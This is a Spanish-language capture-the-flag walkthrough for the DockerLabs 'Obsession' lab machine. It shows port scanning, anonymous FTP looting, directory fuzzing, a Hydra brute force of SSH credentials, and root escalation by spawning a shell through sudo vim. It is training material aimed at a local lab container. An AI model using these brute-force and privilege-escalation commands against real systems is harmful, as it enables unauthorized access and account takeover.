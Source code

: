 # 🖥️ **Máquina: Obsession**

- **🔹 Dificultad:** Muy Fácil  
- **📌 Descripción:**  
  Laboratorio para principiantes en ciberseguridad. Se trabaja principalmente con servicios **SSH** y **FTP**.

- **🎯 Objetivo:**  
  -Enumerar y explotar acceso anónimo en FTP para obtener información sensible.
  
  -Identificar directorios ocultos en el servidor web.
  
  -Realizar un ataque de fuerza bruta contra SSH para obtener acceso al sistema.
  
  -Escalar privilegios a root mediante una mala configuración de sudo con vim.
  
![Máquina Backend](/Obsession/Imagenes/Plantilla.png)

---

## 🚀 **Despliegue de la Máquina Obsession en DockerLabs**

### 1️⃣ Descargar y descomprimir el archivo  
Primero, descargamos y extraemos el archivo `.zip`. Utilizamos `7z` para este propósito:

```bash
7z e backend.zip
```

### 2️⃣ Ejecutar el despliegue automático  
Después de descomprimir, lanzamos la máquina con el siguiente script:

```bash
bash auto_deploy.sh obsession.tar
```

📌 **Nota:** Asegúrate de tener `7z` instalado y contar con un entorno con Docker correctamente configurado.

![Máquina Iniciada](/Obsession/Imagenes/Despliegue.jpeg)

### 3️⃣ Comprobar la conexión  
Verificamos que la máquina esté activa enviando paquetes de ping:

```bash
ping -c4 172.17.0.2
```

![PING](/Obsession/Imagenes/Ping.jpeg)

---

## 🧩 **Fase de Reconocimiento**

Iniciamos un escaneo de puertos con **nmap**:

```bash
nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Reconocimiento](/Obsession/Imagenes/Puertos.jpeg)

📌 **Tip:** Puedes usar herramientas personalizadas como `extractPorts` para filtrar los puertos abiertos:

```bash
extractPorts allPorts.txt
```

Realizamos un escaneo más específico sobre los puertos detectados (22 y 80):

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN target
```

![Reconocimiento](/Obsession/Imagenes/Servicios.jpeg)

**Hallazgos iniciales:**
- **Puerto 22 (SSH):** Acceso remoto al sistema operativo.
- **Puerto 80 (HTTP):** Página web activa.
- **FTP:** El servicio permite acceso anónimo.

---

## 🌐 **Accediendo al servidor web**

Para acceder correctamente a la página web, debemos modificar el archivo `hosts`:

```bash
sudo nano /etc/hosts
```
Añadimos:

```plaintext
172.17.0.2    nombre-del-sitio.local
```

Esto nos permitirá visitar `http://nombre-del-sitio.local` en nuestro navegador.

![Pagina](/Images/Pagina.jpeg)

Recopilamos información básica del sitio usando **WhatWeb**:

```bash
whatweb 172.17.0.2
```

---

## 📂 **Acceso al servicio FTP**

Ya que el acceso anónimo está habilitado, nos conectamos al servidor FTP:

```bash
ftp 172.17.0.2
```

![Reconocimiento](/Obsession/Imagenes/FTP.jpeg)

Dentro del servicio, encontramos dos archivos:

- `pendientes.txt`
- `chat-gonza.txt`

Los descargamos con:

```bash
get pendientes.txt /home/alejandro/Descargas/pendientes.txt
get chat-gonza.txt /home/alejandro/Descargas/chat-gonza.txt
```

![FTP_descargas](/Obsession/Imagenes/FTP_descargas.jpeg)

Leemos su contenido:

```bash
cat pendientes.txt
cat chat-gonza.txt
```

![cat](/Obsession/Imagenes/Lectura.jpeg)

**Observaciones:**  
Los archivos contienen conversaciones internas. Aunque mencionan asuntos legales, nuestro enfoque es identificar potenciales vulnerabilidades; uno de los archivos sugiere cambios pendientes en la página web, lo que podría indicar fallos en desarrollo.

---

## 🔎 **Búsqueda de Directorios Ocultos**

Al navegar inicialmente por la página no encontramos contenido útil, por lo que iniciamos un escaneo de directorios con **wfuzz**:

```bash
wfuzz -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

📎 **Nota:** Si no tienes instalada la lista **Seclists**, puedes descargarla con:

```bash
git clone https://github.com/danielmiessler/SecLists.git /usr/share/seclists
```

![Pagina](/Obsession/Imagenes/wfuzz.jpeg)

**Resultados:**
- **/important:** Directorio con un manifiesto personal.
- **/backup:** Directorio que revela un posible nombre de usuario.

![evidencia](/Obsession/Imagenes/important.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_importan.jpeg)
![evidencia](/Obsession/Imagenes/backup.jpeg)
![evidencia](/Obsession/Imagenes/Contenido_backup.jpeg)

---

## 🔐 **Ataque de Fuerza Bruta al servicio SSH**

Con el nombre de usuario descubierto, utilizamos **Hydra** para encontrar su contraseña:

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 50
```

![Hydra](/Obsession/Imagenes/Hydrassh.jpeg)

Tras obtener las credenciales, iniciamos sesión:

```bash
ssh russoski@172.17.0.2
```

![Entrar](/Obsession/Imagenes/Entrar.jpeg)

---

## 🛡️ **Escalada de Privilegios**

Dentro de la máquina, verificamos los permisos **sudo**:

```bash
sudo -l
```

Descubrimos que el usuario puede ejecutar **vim** como `sudo` sin contraseña.

**¿Por qué es importante?**  
**Vim** permite ejecutar comandos de sistema desde su entorno. Esto significa que podemos invocar una shell como root directamente desde Vim.

📌 Consultando la base de datos [GTFOBins](https://gtfobins.github.io/gtfobins/vim/), encontramos que para escalar privilegios usando Vim, el comando es:

```bash
sudo vim -c ':!/bin/bash'
```

Esto abrirá un **shell interactivo como root**.

![Entrar](/Obsession/Imagenes/Resultado.jpeg)

---

# ✅ **Resumen del proceso:**

1. Escaneamos puertos y descubrimos servicios SSH, HTTP y FTP.
2. Accedimos vía FTP y descargamos archivos que revelaron información sensible.
3. Identificamos directorios ocultos en la página web.
4. Realizamos un ataque de fuerza bruta sobre SSH y accedimos al sistema.
5. Escalamos privilegios mediante una mala configuración de **sudo** sobre **vim**.
